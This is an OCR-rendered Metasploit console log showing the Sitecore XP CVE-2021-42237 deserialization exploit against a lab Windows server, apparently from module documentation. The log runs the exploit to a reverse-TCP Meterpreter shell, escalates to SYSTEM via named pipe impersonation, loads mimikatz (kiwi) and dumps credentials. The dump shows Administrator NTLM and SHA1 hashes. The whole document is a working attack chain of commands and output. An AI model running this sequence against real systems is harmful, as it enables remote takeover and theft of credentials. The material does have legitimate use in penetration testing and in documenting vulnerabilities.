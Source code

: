 ```
msf exploit(windows/http/sitecore_xp_cve_2021_42237) > set LPORT 8342
LPORT => 8342
msf exploit(windows/http/sitecore_xp_cve_2021_42237) > exploit

[*] Started reverse TCP handler on 172.20.223.94:8342
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Response.ashx is accessible and appears to be deserializing data!
[*] Sending stage (200262 bytes) to 172.20.211.198
[*] Meterpreter session 1 opened (172.20.223.94:8342 -> 172.20.211.198:60958 ) at 2021-11-10 15:34:21 -0600

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter > getsystem -t 4
...got system via technique 4 (Named Pipe Impersonation (RPCSS variant)).
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain           NTLM                         SHA1
--------       ------           ----                         ----
Administrator  WIN-86UKQGF31O1  a25d8e40dd22b52d59757645eae  3f2aa15db1577eb28de9adde8b02
                                5b98e                        2d4d8c042b67

wdigest credentials
===================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
Administrator     WIN-86UKQGF31O1  (null)
WIN-86UKQGF31O1$  WORKGROUP        (null)

kerberos credentials
====================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
Administrator     WIN-86UKQGF31O1  (null)
MSSQL$SQLEXPRESS  NT Service       (null)
win-86ukqgf31o1$  WORKGROUP        (null)


meterpreter > sysinfo
Computer        : WIN-86UKQGF31O1
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
```